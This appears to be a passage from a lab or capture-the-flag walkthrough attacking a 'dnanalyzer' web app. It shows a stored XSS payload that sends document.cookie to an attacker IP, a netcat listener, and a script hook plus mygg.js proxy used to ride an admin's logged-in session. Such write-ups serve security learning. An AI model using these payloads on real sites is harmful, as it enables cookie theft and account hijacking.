 ```
root@kali:~# curl -i -d "username=test4&password=test4&dna_string=<svg/onload=\"var x=document.createElement('img');x.src='http://192.168.0.34/'%2Bdocument.cookie;document.body.appendChild(x);\">" http://192.168.0.36/dnanalyzer/api/register.php
```

We see no cookies in the request sent back to us. This could mean that there are no cookies, but that would be weird because there is a login, which indicates sessions. What is more probable is the use of httponly flag on the cookies, or that the site uses session tokens sent via headers.

```
root@kali:~# nc -nlvp 80
GET / HTTP/1.1
Host: 192.168.0.34
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/dnanalyzer/portal/index.php
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
```

### Proxy via XSS

However, there is another trick we can use. We can use a tool called mygg.js to use XSS to browse through the admin's browser to take a look at the site via their authenticated session. Follow the basic installation at https://github.com/dsolstad/mygg.js and edit the configuration in the top section of the file. Change the domain variable to your attacking IP address before starting it with `$ node mygg.js`. After this we can change the XSS payload and use mygg's hook instead.

```
root@kali:~# curl -i -d "username=test4&password=test&dna_string=<svg/onload=\"var x=document.createElement('script');x.src='http://192.168.0.34/hook.js';document.head.appendChild(x);\">" http://alphonse/dnanalyzer/api/register.php
```
After some minutes we can see that we have a new hooked browser in the console of mygg. We also see which URL it was hooked from. 


```
root@kali:~# node mygg.js
[+] Payload stager:
<svg/onload="var x=document.createElement('script');x.src='//192.168.0.34/hook.js';document.head.appendChild(x);">

[+] Proxy server listening on address 127.0.0.1 port 8081
[+] HTTP server listening on address 0.0.0.0 port 80
[+] HTTPS server listening on address 0.0.0.0 port 443
[+] Hooked new browser [192.168.0.36][Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0][http://127.0.0.1/dnanalyzer/portal/index.php]
```

Now, change the proxy settings in your attacking web browser to 127.0.0.1:8081 and browse to http://127.0.0.1/dnanalyzer/portal/index.php and you should be logged in! 
